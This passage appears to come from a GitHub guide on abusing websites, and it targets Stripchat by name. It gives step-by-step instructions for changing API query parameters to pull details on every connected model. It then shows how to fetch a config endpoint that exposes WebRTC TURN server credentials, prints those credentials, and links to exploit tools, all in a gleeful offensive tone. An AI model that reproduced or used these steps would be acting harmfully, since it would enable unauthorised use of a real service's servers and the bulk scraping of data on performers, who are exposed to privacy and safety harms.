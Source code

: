 Basically, if the user as not logged off, the `session-token` will be valid for a various range of days depending on the website until it gets revoked.

### Abusing adult streaming websites

This one will be probably the most interesting for you as they clearly don't give a fuck about security or they just don't know how to put it in place correctly or whatever but their weakness are quite obvious and [easy](https://github.com/DgSe95/porn-proxyfy) to [exploit](https://github.com/DgSe95/porn-dump-cli).

> The following will be related to _stripchat_ but it's also valid for every similar websites that use the `HLS` streaming format or have a `WebRTC` based service as both are often misconfigured.

#### Connected models

* Open up the web console
* Go to the __Network__ tab
* Select the `Fetch/XHR` sub tab

![image](https://user-images.githubusercontent.com/9881407/187097932-99244017-5728-4e2e-b630-48e8c5fd8187.png)

* Change the URL from:
  * <https://stripchat.com/api/front/v2/models?limit=24&topLimit=61&favoritesLimit=24&primaryTag=girls&device=desktop&uniq=ingyts30bj1qc6da>
* To:
  * <https://stripchat.com/api/front/v2/models?limit=10000>

Now enjoy, you have the details about all the connected models at that time :smiling_imp:

#### WebRTC servers credentials

If you take the URL from the previous section and do the following:

* From: <https://stripchat.com/api/front/v2/models?limit=10000>
* To: <https://stripchat.com/api/front/v2/config>

You'll get the complete website config in `JSON` and this include something juicy:

```json
"webRTCOriginTurnServersPortMap":{"servers":[]},"webRTCTurnServersConfig":{"servers":["eu11","eu14","as1","as2","eu1","eu2","eu3","eu4","eu5","eu6","eu7","eu8","eu9","eu10","eu11","eu12","eu13","eu14","eu15","eu16","eu17","eu18","eu19","eu20","eu21","eu22","eu23","eu24","eu25","eu26","eu27","eu28","as1","as2","as3","as4","as5","as6","as7","as8","as9","as10","us1","us2","us3","us4","us5","us6","us7","us8","us9","us10","us11","us12","us13","us14","us15","us16","us17","us18","us19","us20","us21","us22","us23","us24","us25","us26","us27","us28"],"iceServersTemplate":{"iceServers":[{"url":"turn:b-{server}.stripcdn.com:2083?transport=udp","username":"johndoe","credential":"j8Hkl0UYqwW4r"},{"url":"turn:b-{server}.stripcdn.com:2083?transport=tcp","username":"johndoe","credential":"j8Hkl0UYqwW4r"}],"iceTransportPolicy":"relay"}}
```

More precisely:

```json
"username":"johndoe","credential":"j8Hkl0UYqwW4r"
```

So if you reconstruct the data from just the `WebRTC` servers part you get more than 40 servers with the same credentials applied to them:
